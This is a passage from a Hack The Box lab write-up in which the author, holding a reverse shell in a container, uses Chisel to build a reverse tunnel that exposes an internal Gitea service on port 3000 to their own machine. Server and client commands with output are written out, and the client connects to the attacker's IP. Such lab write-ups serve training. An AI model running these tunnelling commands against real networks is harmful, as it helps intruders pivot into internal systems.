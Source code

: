 ```
3466
<!DOCTYPE html>
<html lang="en-US" class="theme-">
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title> Gitea: Git with a cup of tea</title>
        <meta name="theme-color" content="#6cc644">
        <meta name="default-theme" content="auto" />
        <meta name="author" content="Gitea - Git with a cup of tea" />
        <meta name="description" content="Gitea (Git with a cup of tea) is a painless self-hosted Git service written in Go" />
        <meta name="keywords" content="go,git,self-hosted,gitea">
        <meta name="referrer" content="no-referrer" />
...
```

It was serving [Gitea](https://gitea.io/en-us/), a hosted interface for git.


I found some exploits for it, but I failed to exploit them for the container. The exploits required `requests`to be installed. It was not and since the box did not have access to the internet, I could not install it. 

I was stuck here for a while. I could not easily interact with the site in Python without `requests`. I could have done everything through netcat, but that sounded painful. What I needed was an SSH tunnel that would allow me reach the site on port 3000 of the host from my machine. But I could not get a tunnel since I was in a reverse shell, not an SSH connection. 

I went to the [Hack The Box forum](https://forum.hackthebox.com/t/official-opensource-discussion/257694) for a hint. This is where I learned about [Chisel](https://github.com/jpillora/chisel). Chisel allows creating SSH tunnel over HTTP. It also can create reverse port forwarding where the connection starts at the server and get out on the client. This is what I needed since a server in the container would have been unreachable. 

I used this [post](https://medium.com/geekculture/chisel-network-tunneling-on-steroids-a28e6273c683) as an example of how to build the tunnel.

I downloaded the binary on my machine and on the server. Then started the Chisel server on my machine.

```bash
$ ./chisel server -p 3477 --reverse
2022/06/05 07:28:10 server: Reverse tunnelling enabled
2022/06/05 07:28:10 server: Fingerprint 9yzcXS4jbXm4jt5HQGUAzOFkGgQ9x4vdrjKaDm6AlKk=
2022/06/05 07:28:10 server: Listening on http://0.0.0.0:3477

```

I launched the client in the container.


```bash
/tmp # ./chisel client 10.10.14.143:3477 R:2222:172.17.0.1:3000/tcp
2022/06/05 11:29:16 client: Connecting to ws://10.10.14.143:3477
2022/06/05 11:29:17 client: Connected (Latency 32.747099ms)
```
